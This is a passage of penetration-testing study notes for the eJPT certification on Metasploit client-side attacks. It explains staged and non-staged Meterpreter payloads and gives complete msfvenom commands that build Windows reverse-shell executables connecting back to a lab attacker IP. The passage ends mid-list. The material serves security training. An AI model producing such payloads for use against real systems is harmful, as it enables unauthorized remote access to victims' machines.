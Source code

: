 # 1.2.2.4 Client-Side Attacks

## ​[Client-Side Attacks](https://www.offsec.com/metasploit-unleashed/client-side-attacks/) with MSF <a href="#client-side-attacks-with-msf" id="client-side-attacks-with-msf"></a>

A **client-side attack** is a security breach that happens on the client side.

* Social engineering techniques take advantage of human vulnerabilities
* Require user-interaction to open malicious documents or portable executables (**`PEs`**)
* The payload is stored on the client's system
* Attackers have to pay attention to Anti Virus detection

> ❗ _**Advanced modern antivirus solutions detects and blocks this type of payloads very easily.**_

### ​[Msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) Payloads <a href="#msfvenom-payloads" id="msfvenom-payloads"></a>

> ​[**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder
>
> * **`e.g.`** - generate a malicious meterpreter payload, transfer it to a client target; once executed it will connect back to the payload handler and provides with remote access

* List available payloads

msfvenom --list payloads

* When generating a payload the exact name of the payload must be specified
  * target operating system
  * target O.S. architecture (x64, x86 ...)
  * payload type
  * protocol used to connect back (depends on requirements)

**`e.g.`** of **Staged payload**

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-8374500896fdbc9698dcf904ca377f5d0d9a4158%2Fimage-20230415190726950.png?alt=media" alt=""><figcaption></figcaption></figure>

* `windows/x64/meterpreter/reverse_tcp`

**`e.g.`** of **Non-Staged payload**

* `windows/x64/meterpreter_reverse_https`

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-034cc3f4b42408fe6a3e0fb23ba7a745fa9482de%2Fimage-20230415191239575.png?alt=media" alt=""><figcaption></figcaption></figure>

* Generate a Windows payload with `msfvenom`

**32bit payload:**&#x6D;sfvenom -a x86 -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows\_Payloads/payloadx86.exe​# LHOST = Attacker IP address**64bit payload:**&#x6D;sfvenom -a x64 -p windows/x64/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows\_Payloads/payloadx64.exe

* List the output formats available
